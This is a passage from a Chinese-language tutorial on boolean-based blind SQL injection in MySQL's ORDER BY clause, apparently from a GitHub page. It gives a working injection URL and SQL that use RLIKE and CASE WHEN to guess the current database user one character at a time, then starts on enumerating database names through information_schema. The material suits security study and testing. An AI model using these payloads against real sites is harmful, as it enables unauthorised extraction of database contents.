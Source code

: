 ## 0x02 读取数据库版本/当前连接用户/当前连接的数据库

读取不同的内容

例如:

substring(user(),1,1) = r

substring(user(),2,1) = o



web语句: http://www.test.com/sql.php?sort=1 RLIKE (CASE WHEN (substring(user(),1,1)='r') THEN 1 ELSE 0x28 END)



数据库语句: select * from test order by 1 RLIKE (CASE WHEN (substring(user(),1,1)='r') THEN 1 ELSE 0x28 END);



```plain
mysql> select * from test order by 1 RLIKE (CASE WHEN (substring(user(),1,1)='r') THEN 1 ELSE 0x28 END);
+----+------+------+---------+
| id | test | map  | content |
+----+------+------+---------+
|  1 | 1    | 1    | 1       |
|  2 | 2    | 2    | 2       |
|  3 | 3    | 3    | 3       |
+----+------+------+---------+
3 rows in set (0.00 sec)
```



猜对的情况页面会保持不变

错误的情况会爆错/页面数据变为空

## 0x03 猜库名

注意: LIMIT 0 修改会显示其他库名

例如:

LIMIT 0,1 修改为0 就是出1库

LIMIT 1,1 修改为1 就是出2库



```plain
// 演示数据
mysql> SELECT schema_name FROM information_schema.schemata LIMIT 0,1;
+--------------------+
| schema_name        |
+--------------------+
| information_schema |
+--------------------+
1 row in set (0.00 sec)
```
